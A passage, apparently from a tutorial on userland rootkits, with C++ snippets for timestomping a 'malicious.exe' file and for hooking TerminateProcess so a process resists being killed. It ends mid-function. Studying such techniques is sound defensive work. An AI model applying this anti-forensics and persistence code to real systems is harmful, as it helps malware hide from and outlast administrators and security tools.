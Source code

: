 ```

    SystemTimeToFileTime(&st, &fakeCreationTime);

    SystemTimeToFileTime(&st, &fakeAccessTime);

    SystemTimeToFileTime(&st, &fakeModificationTime);

    // Open the file

    HANDLE hFile = CreateFile(filePath, GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS, NULL);

    // Set the fake timestamps for the file

    SetFileTime(hFile, &fakeCreationTime, &fakeAccessTime, &fakeModificationTime);

    // Close the file handle

    CloseHandle(hFile);

    std::cout << "File timestamps timestomped successfully." << std::endl;

    return 0;

}
```

This C++ code snippet utilizes Windows API functions like `CreateFile` and `SetFileTime` to manipulate the timestamps of a file (“malicious.exe”) on a Windows system. It sets fake timestamps to effectively timestomp the file, thereby disguising the malware’s presence within the Windows environment.

Resisting Process Termination

One of the most notorious features of userland rootkits is their ability to resist process termination attempts. When an administrator or security tool attempts to terminate a malicious process, the rootkit may intercept and block the termination request, allowing the rogue process to continue running undisturbed. This level of persistence is achieved by hooking functions such as TerminateProcess or ZwTerminateProcess and then denying or modifying termination requests.

Furthermore, some advanced userland rootkits can use process hollowing or process injection techniques to restart themselves even if forcibly terminated. This cat-and-mouse game between security professionals and rootkit developers can make it exceedingly challenging to eradicate these threats from infected systems.

Here is a C++ code snippet showing one way of preventing process termination by API hooking:

```
std::string processName = "Notepad.exe";

BOOL (WINAPI*pTerminateProcess)(_In_ HANDLE hProcess,_In_ UINT uExitCode) = TerminateProcess;

BOOL HookTerminateProcess(_In_ HANDLE hProcess,_In_ UINT uExitCode) {

char lpImageFileName[1024];

GetProcessImageFileNameA(hProcess, lpImageFileName, 1024);

if((std::string(lpImageFileName).find(processName) != 0)){

HANDLE hProcess2 = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION,false,GetProcessId(hProcess));

return pTerminateProcess(hProcess2, uExitCode);

}

return pTerminateProcess(hProcess,uExitCode);
```